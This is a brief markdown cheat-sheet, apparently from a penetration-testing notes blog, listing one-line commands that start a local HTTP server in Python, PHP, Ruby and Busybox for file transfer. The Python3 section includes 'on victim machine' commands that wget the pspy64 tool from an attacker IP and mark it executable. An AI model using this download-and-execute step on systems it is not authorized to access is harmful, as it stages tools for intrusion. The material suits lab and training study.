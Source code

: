 ```yaml
---
description: >-
  File transfer via web server.
title: Local Web Server                 # Add title here
date: 2022-09-05 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Local Web Server]                     # Change Templates to Writeup
tags: [file transfer, web server]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Python3
Via web:

```bash
# On our machine:
python3 -m http.server 8888

# On victim machine:

wget http://10.10.16.5:8888/pspy64
chmod +x pspy64
```

### Python2
```bash 
python -m SimpleHTTPServer 7331
```

### PHP
```bash
php -S 0.0.0.0:8080
```

### Ruby
```bash
ruby -run -e httpd . -p 9000
```

### Busybox
```bash
busybox httpd -f -p 10000
```